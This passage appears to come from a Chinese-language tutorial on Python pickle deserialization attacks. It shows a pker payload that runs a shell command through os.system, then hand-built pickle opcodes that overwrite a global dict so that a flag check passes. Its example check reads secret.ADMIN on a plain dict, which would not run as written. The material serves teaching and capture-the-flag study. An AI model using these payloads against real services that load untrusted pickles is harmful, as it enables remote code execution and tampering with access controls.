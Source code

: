 若使用 pker 库生成，则对应代码为

```python
os = GLOBAL('__builtin__', '__import__')('os')
system = GLOBAL('__builtin__', 'getattr')(os, 'system')
system('whoami')
return
```



### 修改全局变量

通过 `c` 操作码可以获取到任意对象，`b` 操作码可以对任意对象进行修改，此时就可以获取全局对象并进行修改

> 若为普通对象则可以直接用 `b` 操作码进行修改，参考 opcode 简介一节中的介绍

这里讨论 `dict` `list` 等没有 `__dict__` 属性的对象的情况，可以通过获取其 `update` `append` 等函数进行修改，比如下面的示例代码

```python
secret = {'ADMIN': 0}

def get_flag():
    if secret.ADMIN == 1:
        print(flag)
```

这里 secret 是全局对象，假设我们没有正常途径修改这个变量，但是有一个输入可控的 pickle 反序列化，我们就可以通过构造 opcode 修改该变量

构造 opcode 如下，最终调用函数为 `__main__.secret.update({'ADMIN': 1})`

```
c__builtin__
getattr
(c__main__
secret
S'update'
tR((S'ADMIN'
I1
dtR.
```

其中 1~2 行获取 `__builtin__.getattr` 函数，3~4 行获取 `secret` 变量，5~6 行获取 `secret.update` 函数，6~8 行调用该函数将 `ADMIN` 设为 1

![secret](secret.png "通过调用 dict 对象的 update 方法修改全局变量")
